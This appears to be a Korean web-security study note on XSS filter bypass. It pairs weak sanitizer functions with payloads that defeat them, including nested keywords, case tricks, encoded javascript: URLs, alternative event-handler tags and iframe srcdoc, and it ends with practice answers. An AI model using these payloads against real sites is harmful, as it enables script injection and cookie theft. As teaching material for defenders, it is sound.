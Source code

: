 # 문자열 치환 우회 예시
```javascript
function replaceIterate(text) {
    while (true) {
        var newText = text
            .replace(/script|onerror/gi, '');
        if (newText === text) break;
        text = newText;
    }
    return text;
}
```
>replaceIterate('<imgonerror src="data:image/svg+scronerroriptxml,&lt;svg&gt;" onloadonerror="alert(1)" />')
>--> <img src="data:image/svg+xml,&lt;svg&gt;" onload="alert(1)" />
>replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
>--> <iframe srcdoc="&lt;script&gt;parent.alert(1)&lt;/script&gt;" />
>(x => x.replace(/onerror/g, ''))('<img oneonerrorrror=promonerrorpt(1)>')
>--> <img onerror=prompt(1) />

<br/><br/>

## 실습문제
```javascript
function XSSFilter(data){
  return data.replace(/script/gi, '');
}
/*
<scscriptript>alert("hi");</scscriptript>
*/

function XSSFilter(data){
  return data.replace(/onerror/gi, '');
}
/*
<img src="123" oonerrornerror="alert('hi')" />
*/
```

# 활성 하이퍼링크
정규화를 이용한 우회
```javascript
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
<iframe src="\1\4jAVasC\triPT:alert(document.domain)">
```

HTML Entity Encoding을 통한 우회
```javascript
<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```

javascript의 URL 객체를 통한 정규화
```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}

normalizeURL('\4\4jAva\tScRIpT:alert(1)')
--> "javascript:alert"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```


# 태그와 속성 기반 필터링
Q) 대소문자 모두 검사하지 않는 방식
```javascript
x => !x.includes('script') && !x.includes('on')
```

A) 대소문자 검사 미흡 우회
```javascript
<sCRipT>alert(document.cookie)</scriPT>
<img src=x: oneRroR=alert(document.cookie) />
```

Q) 잘못된 정규표현식 우회
```javascript
x => !/<script[^>]*>[^<]/i.test(x)
```

A) 스크립트 태그 src 속성을 이용
```javascript
<script src="data:,alert(document.cookie)"></script>
```

Q) img 태그의 on 이벤트 핸들러 검사
```javascript
x => !/<img.*on/i.test(x)
```

A) 줄바꿈 문자를 이용한 검사 우회
```javascript
<img src=""\nonerror="alert(document.cookie)"/>
```

# 특정 태그 및 속성에 대한 필터링을 다른 태그 및 속성을 이용하여 필터 우회
Q) 태그 검사 예시
```javascript
x => !/<script|<img|<input/i.test(x)
```

A) 태그 검사 우회
```javascript
<video><source onerror="alert(document.domain)"/></video>
<body onload="alert(document.domain)"/>
```

Q) on 이벤트 핸들러 및 멀티라인 문자 검사
```javascript
x => !/<script|<img|<input|<.*on/is.test(x)
```

A) on 이벤트 핸들러 및 멀티 라인 문자 검사 우회<br/>
HTML Entity Encoding 사용
```javascript
<iframe src="javascript:alert(parent.document.domain)">
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
```


## 실습문제
```javascript
function XSSFilter(data){
  if(data.includes('script')){
    return false;
  }
  return true;
}
/*
<SCRIPT>alert("hi");</SCRIPT>
*/

function XSSFilter(data){
  if(data.toLowerCase().includes('script')){
    return false;
  }
  return true;
}
/*
<img src="#" onerror="alert('hi')" />
*/

function XSSFilter(data){
  if(data.toLowerCase().includes('script') ||
     data.toLowerCase().includes('on')){
    return false;
  }
  return true;
}
/*
iframe으로 쓸 경우 부모창에서 실행해야하므로 parent 사용
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=parent.alert(parent.document.domain)>">
*/
```